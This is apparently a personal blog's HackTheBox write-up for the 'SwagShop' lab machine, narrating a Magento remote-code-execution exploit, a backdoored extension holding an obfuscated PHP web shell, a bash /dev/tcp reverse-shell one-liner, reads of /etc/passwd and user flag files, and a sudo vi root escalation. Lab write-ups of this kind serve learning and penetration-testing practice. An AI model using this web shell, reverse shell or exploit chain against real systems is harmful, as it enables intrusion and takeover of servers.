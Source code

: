 ```yaml
---
title: "HackTheBox - WriteUp 2"
date: 2019-05-13T22:20:40+08:00
description: "HackTheBox 练手"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# SwagShop

## Reference

1. Check here for more details about linux command utils: https://gtfobins.github.io/
2. https://packetstormsecurity.com/files/133327
3. http://10.10.10.140/app/etc/local.xml
4. https://github.com/lavalamp-/LavaMagentoBD
5. https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
6. http://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/

## Step 1: NMAP

Opened Port: 80, 22.

Apache2 with Ubuntu 18.04, SSH Useless...

## Step 2: SearchSploit

> For OSCP Preparation: Use Searchsploit to search exploit-db.com and modify it to your case.
> Leave the metasploit alone.

```bash
$ searchsploit -m exploits/xml/webapps/37977.py
------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                             |  Path (/opt/searchsploit/)
------------------------------------------------------------------------------------------------------------------------------------------------
Magento eCommerce - Remote Code Execution                  | exploits/xml/webapps/37977.py
------------------------------------------------------------------------------------------------------------------------------------------------
```

Found the RCE, next modify it. Maybe the creator want to let us know more about what's behind, he even not wrote correct URL rewrite in Apache.

```python
target = "http://10.10.10.140/"
target_url = target + "/index.php" + "/admin/Cms_Wysiwyg/directive/index/"
```

Why do I modify this file?  Check the last reference. 

Run the script and go to the admin panel to do the next step.

## Step 3: Normal User

Execute the Python Script. Use "forme:forme" to login `/downloader` administration extension panel.

Then, modify the webshell:

```bash
$ git clone https://github.com/lavalamp-/LavaMagentoBD
```

Go to the `LavaMagentoBD/Backdoor Code/app/code/community/Lavalamp/Connector/controllers/IndexController.php`, Open `AntSword`.

Insert the corresponding call URL to the `AntSword` and then generate an one-line shell like this:

```php
<?php $RQUC=create_function(chr(01306-01242).chr(786-671).str_rot13('b').base64_decode('bQ==').str_rot13('r'),chr(0x202-0x19d).str_rot13('i').chr(0x1149a/0x2da).chr(063030/0362).chr(01374-01324).str_rot13('$').chr(0x30d-0x29a).base64_decode('bw==').str_rot13('z').chr(0401-0234).chr(0x3488/0x148).chr(53985/915));$RQUC(base64_decode('MTk4N'.'TE5O0'.'BldkF'.'sKCRf'.''.chr(0233163/01647).str_rot13('R').chr(306-249).chr(990-906).chr(51600/600).''.''.chr(0134760/01250).chr(0x211-0x19d).chr(037260/0354).chr(0x6b30/0x118).base64_decode('MA==').''.'ZnZnh'.'0dl0p'.'OzU5N'.'TU1Nz'.'s='.''));?>
```

Don't forget the password the software gives you. Then make a `md5sum` of this php file, and change the corresponding value in the `LavaMagentoBD/Backdoor Code/package.xml`. Next, According the project readme, repack it and upload to the downloader panel. Now you have the reverse shell. Use AntSword as you pleased.

## Step 3: Before privilege escalation

After you get the reverse shell as www-data, just `cat /etc/passwd` to get the user `haris`, and next, `cat /home/haris/user.txt`, you get the normal user token.

Carefully check the `ls -alh /home/haris`, found `.sudo_as_administrator_successful` (something like), you know that you need to escalate with `sudo`.

## Step 4: Get interactive shell and escalate

Check GTFOBINS and machine, found Python3 with bash.

Use the following commands to get the interactive shell:

```bash
$ export RHOST=<YOUR IP>
$ nc -lp 14445
$ bash -c 'bash -i &>/dev/tcp/$RHOST/14445 0<&1'
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

## Step 5: Escalate

Get the spawned interactive shell and run `sudo -l`, found:

```bash
$ sudo -l
root (NOPASSWD:ALL):/usr/bin/vi /var/www/html/*
```

**USE THE ABSOLUTE PATH** to get the root shell without any password and do the f*cking things you want:

```bash
$ sudo /usr/bin/vi /var/www/html/test.sh
```

Then `:!cat /root/root.txt` get the root token. 

Finished!

# Help

ON THE WAY...
